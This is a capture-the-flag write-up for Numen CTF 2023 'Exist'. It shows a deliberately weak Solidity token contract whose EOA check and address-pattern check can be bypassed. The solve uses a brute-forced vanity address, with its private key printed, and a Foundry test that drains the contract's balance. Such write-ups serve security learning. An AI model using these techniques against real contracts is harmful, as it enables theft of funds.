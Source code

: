 # Numen CTF 2023 : Exist

### Contract code :
```solidity
pragma solidity ^0.6.12;

contract Existing{

	string public name = "Existing";
	string public symbol = "EG";
	uint256 public decimals = 18;
	uint256 public totalSupply = 10000000;
    bool public flag = false;

    mapping(address=>bool)public status;

    event SendFlag(address addr);

    mapping(address => uint) public balanceOf;

    bytes20 internal appearance = bytes20(bytes32("ZT"))>>144;
    bytes20 internal maskcode = bytes20(uint160(0xffff));

    constructor()public{ 
        balanceOf[address(this)] += totalSupply;
    }

    function transfer(address to,uint amount) external {
        _transfer(msg.sender,to,amount);
    }

    function _transfer(address from,address to,uint amount) internal {
        require(balanceOf[from] >= amount,"amount exceed");
        require(to != address(0),"you cant burn my token");
        require(balanceOf[to]+amount >= balanceOf[to]);
        balanceOf[from] -= amount;
        balanceOf[to] += amount;
    }

    modifier only_family{
        require(is_my_family(msg.sender),
        "no no no,my family only");
        _;
    }

    modifier only_EOA(address msgs){
        uint x;
        assembly { 
            x := extcodesize(msgs) 
            }
        require(x == 0,"Only EOA can do that");
        _;
    } 

    function is_my_family(address account) internal returns (bool) {
        bytes20 you = bytes20(account);

        bytes20 code = maskcode;
        bytes20 feature = appearance;

        for (uint256 i = 0; i < 34; i++) {
            if (you & code == feature) {
                return true;
            }

            code <<= 4;
            feature <<= 4;
        }
        return false;
    }

    function share_my_vault() external only_EOA(msg.sender) only_family {
        uint256 add = balanceOf[address(this)];
        _transfer(address(this),msg.sender,add);
    }

    function setflag() external{
        if(balanceOf[msg.sender] >= totalSupply) {
            flag = true;
        }
    }
    function isSolved() external view returns(bool) {
        
        return flag;
    }
}
```

The goal is to get all of the token balance from the contract and set `flag` to true

There is a `share_my_vault()` function that all token balance from the contract to us, but it has 2 modifiers

`only_EOA` checks that our address is an EOA by checking extcodesize, it can be bypassed with code in constructor

`only_family` will check the 4 least significant hex digit of our address and see if it equals `5a54`, if it equals then `is_my_family` returns true, if not then it will shift 4 bits to the left and check again and loop for 34 times

So we can just bruteforce a vanity address ending with `5a54` with python

```
Private key : 0x59584503f6378b330aea2c0a50a1a3e42ec905f5e545adf2651497ccda96b39b
Address : 0xAE1ff4a16b798B585c81Fcec9Df7378F69155A54
```

## Foundry test :
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.12;
pragma experimental ABIEncoderV2;

import "forge-std/Test.sol";
import "../src/create2.sol";

contract existTest is Test {
    Existing public exist;
    address hacker = vm.addr(0x59584503f6378b330aea2c0a50a1a3e42ec905f5e545adf2651497ccda96b39b);

    function setUp() public {
        exist = new Existing();
    }

    function testSolved() public {
        vm.startPrank(hacker);
        
        exist.share_my_vault();
        exist.setflag();
        
        assertTrue(exist.isSolved());
    }
}
```